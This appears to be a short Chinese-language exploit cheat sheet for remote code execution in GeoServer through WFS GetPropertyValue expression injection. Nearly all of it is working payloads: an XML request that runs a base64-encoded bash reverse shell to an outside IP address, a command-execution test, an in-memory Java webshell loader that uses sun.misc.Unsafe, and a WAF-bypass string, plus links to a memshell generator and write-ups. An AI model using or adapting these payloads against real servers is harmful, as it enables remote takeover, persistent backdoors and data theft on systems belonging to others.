 GeoServer https://mp.weixin.qq.com/s/7FGOddQdXJsy7FF_hJAGSQ

https://github.com/pen4uin/java-memshell-generato

## 执行命令
```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
  <wfs:Query typeNames='sf:archsites'/>
  <wfs:valueReference>exec(java.lang.Runtime.getRuntime(),'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTIzLzg4NzcgMD4mMQ==}|{base64,-d}|{bash,-i}')</wfs:valueReference>
</wfs:GetPropertyValue>
```
```xml
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lan
g.Runtime.getRuntime().exec("open -na Calculator")')
```

## 注入内存马
```xml
<wfs:GetPropertyValue service='WFS' version='2.0.0'
 xmlns:topp='http://www.openplans.org/topp'
 xmlns:fes='http://www.opengis.net/fes/2.0'
 xmlns:wfs='http://www.opengis.net/wfs/2.0'>
 <wfs:Query typeNames='sf:archsites'/>
 <wfs:valueReference>eval(getEngineByName(javax.script.ScriptEngineManage
r.new(),'js'),'
var str="";
var bt;
try {
 bt = java.lang.Class.forName("sun.misc.BASE64Decoder").newInstance().d
ecodeBuffer(str);
} catch (e) {
 bt = java.util.Base64.getDecoder().decode(str);
}
var theUnsafe = java.lang.Class.forName("sun.misc.Unsafe").getDeclaredFiel
d("theUnsafe");
theUnsafe.setAccessible(true);
unsafe = theUnsafe.get(null);
unsafe.defineAnonymousClass(java.lang.Class.forName("java.lang.Class"), b
t, null).newInstance();
')</wfs:valueReference>
</wfs:GetPropertyValue>
```

## 绕过WAF
```xml
/+java.lang.T<!--IgnoreMe!!!!-->hread.s[(: IGNORE :)]leep&#010;&#032;&#009;<![CDATA[ (2000) ]]>
```

## 参考
https://xz.aliyun.com/t/14991?time__1311=GqAh0IqGxmxfx0v44%2BxCqM67GCCqX3x
https://m.freebuf.com/articles/web/203537.html
https://blog.csdn.net/baidu_25299117/article/details/140305513
https://cn-sec.com/archives/2921958.html


